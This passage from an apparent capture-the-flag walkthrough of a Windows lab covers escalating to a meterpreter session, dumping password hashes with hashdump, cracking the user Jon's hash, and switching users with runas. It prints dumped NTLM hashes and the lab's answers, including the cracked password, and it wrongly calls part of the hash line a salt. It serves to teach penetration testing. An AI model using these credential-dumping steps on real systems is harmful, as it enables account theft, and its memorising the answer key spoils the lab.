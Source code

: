 **Q5. Select this (use MODULE_PATH). Show options, what option are we required to change?**

**Ans:** `SESSION`

Now type `exploit` in your msfconsole.

After the module executes we will have two sessions in our msfconsole like this:
<img src="media/blue/esclate.png">
use the second session with the command `sessions -i 2`.

## Phase 4: Cracking
After switching to meterpreter shell, next thing to do is we have to find out the password of Jon who is the system owner. For that we will make use of this command:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
There we have found hashed password of Jon, now let's go to `crackstation` and paste the hash. But before pasting there, let's understand which part to paste.
<img src="media/blue/hashpart.png">
There we have two sections one is salt and other is hash. Just paste the hash section and 1000 is the userid for non-default users.

**Q6. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

**Ans:** `Jon`

**Q7. Copy this password hash to a file and research how to crack it. What is the cracked password?**

**Ans:** `alqfna22`

After we get password for Jon, we need to switch to Jon user and for that first go to session 1 and type this command:
```bash

C:\Windows\system32>runas /user:Jon /savecred cmd
runas /user:Jon /savecred cmd
Enter the password for Jon: 
```
Now, go to C:\ drive which is root directory in case of windows. Then list the content of C drive there you will get flag file. To read the content of flag file simply type this command:
```bash
C:\Windows\system32>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66
```